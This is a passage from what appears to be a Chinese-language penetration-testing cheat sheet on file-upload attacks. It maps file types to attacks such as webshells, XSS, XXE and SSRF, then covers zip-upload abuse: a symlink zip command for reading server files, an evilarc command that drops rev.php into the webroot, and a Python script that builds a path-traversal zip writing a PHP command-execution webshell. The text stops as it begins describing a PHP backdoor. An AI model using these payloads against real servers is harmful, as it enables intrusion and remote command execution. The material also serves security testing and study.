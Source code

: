 下面有10个你可以用例上传的文件（from [link](https://twitter.com/SalahHasoneh1/status/1281274120395685889)）

```
ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
SVG: Stored XSS / SSRF / XXE
GIF: Stored XSS / SSRF
CSV: CSV injection
XML: XXE
AVI: LFI / SSRF
HTML / JS : HTML injection / XSS / Open redirect
PNG / JPEG: Pixel flood attack (DoS)
ZIP: RCE via LFI / DoS
PDF / PPTX: SSRF / BLIND XXE

```

## zip 压缩文件自动解压上传

如果你可以上传一个zip文件，需要在服务器中解压文件，你可以做2件事：

### Symlink
上传一个包含软链接的link到别的文件，然后访问这个期待访问这个linked 文件的解压文件

```shell
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
```

### 解压到不同的文件夹

通常，解压文件会放在攻击者所不期望的文件夹中，例如webroot中的某个uploads。

人们可能会简单认为这种目录设置可以防止恶意文件上传，防止执行OS级别命令，但这种想法是不对的。因为zip压缩格式支持层级化压缩，我们可以引用更高级别的目录，通过滥用解压特性，离开安全upload目录。

一个自动化渗透，生成此类文件的工具，可参考 ：https://github.com/ptoomey3/evilarc

`python evilarc.py -o unix -d 5 -p /var/www/html/ rev.php`

下面有一些生成此类恶意zip文件的python脚本：

```python
#!/usr/bin/python

import zipfile
from cStringIO import StringIO

def create_zip():
  f = StringIO()
  z = zipfile.ZipFile(f,'w',zipfile.ZIP_DEFLATED)
  z.writestr('../../../../../var/www/html/webserver/shell.php','<?php echo system($_REQUEST["cmd"]);?>')
  z.writestr('otherfile.xml','Content of the file')
  z.close()
  zip = open('poc.zip','wb')
  zip.write(f.getvalue())
  zip.close()

create_zip()

```
为了实现远程命令执行（RCE），我们可以这样做：
- 生成一个PHP shell(名为simple-backdoor.php)
